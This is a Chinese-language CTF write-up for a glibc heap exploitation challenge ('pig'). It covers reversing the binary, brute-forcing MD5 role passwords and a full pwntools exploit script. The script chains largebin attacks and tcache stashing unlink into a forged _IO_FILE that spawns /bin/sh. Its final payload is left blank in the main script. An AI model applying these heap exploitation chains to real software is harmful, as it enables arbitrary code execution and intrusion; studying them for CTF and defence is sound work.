


> 阴间堆风水

## 逆向

### 修复switch

0: 0x3985 invalid

1: 0x3797 add

2: 0x37B3 show

3: 0x37cf edit

4: 0x37eb delet

5: 0x3807 change role

### struct

通过add函数，猜测出heap_list，heap_size的作用，结合free、edit函数找到两个标志位

结合每个的大小与偏移，推测出数组的数量

```c
struct house
{
    char *list[0x18];
    int size[0x18];
    char flag1[0x18];
    char flag2[0x18];
};
```

```c
struct tmp_house
{
  struct house peppa_house;
  int current_peppasize;
  struct house mummy_house;
  int current_mummysize;
  struct house daddy_house;
  int current_daddysize;
  int show_time;
  int edit_time;
};
```

### md5

1. 填充1个1和n个0,使信息长度为N*512+448(bit)
2. 用64bit存储填充前信息长度，加在后面，长度变为(N+1)*512
3. 装入标准的幻数: A=0x67452301, B=0xefcdab89, C=0x98badcfe, D=0x10325476
4. 四轮循环运算，循环次数为分组个数(N+1)

```python
import hashlib
 
def main():
    start = "3c4400"
    while True:
        for i in range(100000000):
            s='A'+str(i)
            #s='B'+str(i)
            #s='C'+str(i)
            print "Test %s " % s
            if hashlib.md5(s).hexdigest().startswith(start):
                print(s)
                return
 
if __name__ == '__main__':
    main()
'''
A39275120
B3332073
C75929410
'''
```

### 利用

- add大小0x90~0x430，同一角色size只能增加
- peppa 20次，mummy 10次，daddy 5次
- peppa 0x30i, mummy 0x30i + 0x10, daddy 0x31i + 0x20
- view 2次，edit 8次
- delet后无法delet，切换角色可edit、view
- daddy的add不用一直增加！
- daddy add最后一次时会多calloc0xe8

## 堆风水

### role的选择

注意不同role的堆列表是独立的，同时不同role能修改的位置也不同

peppa可以修改fd,bk

mummy可以修改fd_nextsize,bk_nextsize

因而最好peppa打tcache stashing unlink, mummy打largebin attack

当然这不是绝对的，我们可以通过UAF达到对同一个堆块的混淆

### tcache stashing unlink

1.`tcache`中放`5`个，`smallbin`中放两个

2.将**后进**`smallbin`的`chunk`的`bk`(不破坏`fd`指针的情况下)修改为`[target-0x10]`(即target为将要加入tchache的chunk的user pointer处），同时将目标地址`+0x08`处（即target->bk)的值设置为一个指向可写内存的指针。

 3.从smallbin中取一个chunk，走完stash流程，目标地址就会被链入tcache中。

### 布局的问题

#### 1

>  在tcache中放了5个的情况下，如何使两个chunk进入**相同大小**的smallbin？

问题转化为：如何使两个chunk进入相同大小的unsortedbin，而不进入tcache



考虑当unsortedbin中只有一个chunk时，分配较小的chunk时会从其中切一块使用，另一块放入lastrmainder（同样是unsortedbin）

所以我们先获取一个较大的unsortedbin，（这一步通过填满tcache获得），随后malloc一块较小的chunk,就可以获得目标大小的unsortedbin

注意这里最后需要获得两块unsortedbin,注意避免在分配第二块时把第一块拿掉。我一开始分配的大小为0x150,刚好可以拿掉一个0xa0剩下一个0xa0,但是在分配第二快时就会出现问题

我的解决方案是，切割0x160的块，从中取出0xb0，刚好剩下0xa0,同时第二次取0xb0时不会出现把获得的unsortedbin取走的情况

网上的解决方案是：再填另一个tcache，两次用不同的unsortedbin切割，但是这种方法比较浪费次数

同时，经过计算、微调，我这里切下来的smallbin的fd和bk刚好位于chunk1->7,1->8的可写区域

#### 2

> 改到_IO_list_all的指针后，如何修改内容？

本题比较阴间的地方是，不能完整地修改一个堆块

好在出题人给add3加了一个gift,可以申请一个0xe8的完整可写的堆块

所以最后可以把largebin attack指向的largebin留着，完成add3的最后一步，使得daddy从这个largechunk中切一块，从而直接获得完整的修改权限

下策是修改large chunk的chain指针，使其指向可写堆块

### 布局

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += ""
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pig")
# libc=ELF("./libc.so.6")
#p = remote(host, port)

def add(size, content): #0xa0-0x430
	p.sendlineafter("Choice: ", "1")
	p.sendlineafter("size: ", str(size).encode())
	p.sendafter("message: ", content)
def view(index):
	p.sendlineafter("Choice: ", "2")
	p.sendlineafter("index: ", str(index).encode())
def edit(index, content):
	p.sendlineafter("Choice: ", "3")
	p.sendlineafter("index: ", str(index).encode())
	p.sendafter("message: ", content)
def delet(index):
	p.sendlineafter("Choice: ", "4")
	p.sendlineafter("index: ", str(index).encode())
def change(role):
	p.sendlineafter("Choice: ", "5")
	if role == 1:
		p.sendlineafter("user:\n", "A39275120")
	elif role == 2:
		p.sendlineafter("user:\n", "B3332073")
	elif role == 3:
		p.sendlineafter("user:\n", "C75929410")

#tcache 0xa0
change(2)
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))#2->4

#unsortedbin->smallbin

#tcache 0x160
change(1)
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))#1->6

add(0x160, cyclic(0x70))#1->7
change(2)
add(0xa0, cyclic(0x30))#protect 2->5
change(1)
add(0x160, cyclic(0x70))#1->8

#fill tcache 0x160
delet(0)
delet(1)
delet(2)
delet(3)
delet(4)
delet(5)
delet(6)

#fill tcache 0xa0 to 5
change(2)
delet(0)
delet(1)
delet(2)
delet(3)
delet(4)

#split into unsorted bin
change(1)
delet(7)

change(3)
change(1)#to clear flag0
view(7)#leak libc
libc_base = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x219ce0
free_hook = libc_base + 0x2204a8
iolistall = libc_base + 0x21a680
memset_got = libc_base + 0x219188
log.success("libc_base = {}".format(hex(libc_base)))
log.success("free_hook = {}".format(hex(free_hook)))
log.success("iolistall = {}".format(hex(iolistall)))
log.success("memset_got = {}".format(hex(memset_got)))

change(3)
add(0xb0, cyclic(0x30))#smallbin 0 = 1->7	
change(1)
add(0x160, cyclic(0x70))#into smallbin 1->9
delet(8)
change(3)
add(0xb0, cyclic(0x30))#smallbin 1 = 1->8
#unsortedbin finished, 1->9(0x160);2->5(0xa0);3->1

#leak heap_base
change(1)
add(0x410, cyclic(0x160))#1->10
add(0x410, cyclic(0x160))#1->11
delet(10)
add(0x430, cyclic(0x160))#1->12
fixed_largebin_fd = libc_base + 0x21a0d0
change(2)
change(1)
payload = cyclic(0x160)
edit(10, payload)
view(10)
p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x13120
log.success("heap0_base = {}".format(hex(heap_base)))
#fix it
payload = p64(fixed_largebin_fd)*2 + cyclic(0x150)
edit(10, payload)
change(2)
add(0x410, cyclic(0x160))# 2->6 largebin1

#largebin attack
change(2)
add(0x410, cyclic(0x160))# 2->7 largebin2
change(1)
add(0x430, cyclic(0x160))# 1->13 protect
change(2)
add(0x410, cyclic(0x160))# 2->8 
change(1)
add(0x430, cyclic(0x160))# 1->14 protect
change(2)
add(0x420, cyclic(0x160))# 2->9 largebin3
change(1)
add(0x430, cyclic(0x160))# 1->15 protect

change(2)
delet(9)
change(1)
add(0x430, cyclic(0x160))# trigger largebin3 1->16

#largebin attack1
change(2)
delet(6)
payload = p64(heap_base+0x14e60) + p64(free_hook + 0x8-0x20)+cyclic(0x150)
edit(9, payload)

change(1)
add(0x430, cyclic(0x160))# trigger largebin1 1->17

change(3)
add(0x410, cyclic(0x160))# memsetgot-0x8 -> 2->9   3->2

#fix largebin&attck2
change(2)
delet(7)
payload = p64(heap_base+0x14e60) + p64(iolistall-0x20)+cyclic(0x150)
edit(9, payload)
change(1)
add(0x430, cyclic(0x160))# trigger largebin2 1->18 iolistall-> 2->7
#fix largebin
change(2)
payload = p64(heap_base+0x14e60)*2+cyclic(0x150)
edit(7, payload)
payload = p64(heap_base+0x13da0)*2+cyclic(0x150)
edit(9, payload)

#tcache smashing unlink
change(3)
add(0x420, cyclic(0x160)) #2-9 calloced

change(1)
payload = cyclic(0x40) + p64(heap_base+0x12ce0) + p64(free_hook-0x10)+cyclic(0x110)
edit(8, payload)
change(3)

# debug()

add(0xa0, cyclic(0x30))   #3->4
#gift!
p.recvuntil("01dwang's Gift:\n")
#fake IOFILE
payload = ""
p.send(payload)

debug()


p.interactive()
```

## 伪造IOFILE

### 改__free_hook做法

```c
int _IO_str_overflow (FILE *fp, int c)
{
  int flush_only = c == EOF;
  size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
    return EOF;
      else
        {
          char *new_buf;
          char *old_buf = fp->_IO_buf_base;
          size_t old_blen = _IO_blen (fp);
          size_t new_size = 2 * old_blen + 100;
          if (new_size < old_blen)
            return EOF;
          new_buf = malloc (new_size); // 1
          if (new_buf == NULL)
            {
              /*      __ferror(fp) = 1; */
              return EOF;
            }
          if (old_buf)
            {
              memcpy (new_buf, old_buf, old_blen); // 2
              free (old_buf); // 3
              /* Make sure _IO_setb won't try to delete _IO_buf_base. */
              fp->_IO_buf_base = NULL;
            }
          memset (new_buf + old_blen, '\0', new_size - old_blen); // 4
 
          _IO_setb (fp, new_buf, new_buf + new_size, 1);
          fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
          fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
          fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
          fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
 
          fp->_IO_write_base = new_buf;
          fp->_IO_write_end = fp->_IO_buf_end;
        }
    }
 
  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)
```

```c
old_blen = _IO_blen (fp) = (fp)->_IO_buf_end - (fp)->_IO_buf_base
new_size = 2 * old_blen + 100
new_buf = malloc (new_size)

old_buf = fp->_IO_buf_base
memcpy (new_buf, old_buf, old_blen)

free (old_buf);

memset (new_buf + old_blen, '\0', new_size - old_blen)
```

此时`_IO_list_all`指针已经指向了gift chunk,这个chunk的内容完全是可控的



注意前面tcache stashing unlink改的位置，可能需要在__free_hook的地址处加减0x8，因为tcache申请会检查十六字节对齐

因为我没用原题的glibc,这里我对齐之后，0xe8大小的堆块不够写了，按照出题人的思路应该是刚好够写的

```python
fake_IO_addr = heap_base+0x13da0
payload = p64(0)*3 + p64(0xffffffffffffffff) #write_ptr
payload += p64(0)#write_end # fp->_IO_write_ptr - fp->_IO_write_base >= _IO_buf_end - _IO_buf_base
payload += p64(fake_IO_addr+0xe0)#buf_base
payload += p64(fake_IO_addr+0xe0+0x1e) #buf_end
payload = payload.ljust(0xc8, b'\x00')
payload += p64(libc_base+0x2166c0)
payload += b'/bin/sh\x00'+p64(0)+p64(libc_base+0x50d60)
```

### 改memset got做法

由于libc是partial RELRO，got表可写

因此可以把memset的got当作一个__free_hook

注意这里做tcache stashing unlink时不能直接覆盖memset的got表，这是因为calloc中会调用memset,如果这时的got已经进入tcache,则会变成加密后的fd，rip运行到这里时会报错

因而正确的做法应该是预留一定的空间，本题限制较大，故不做演示，仅提出思路


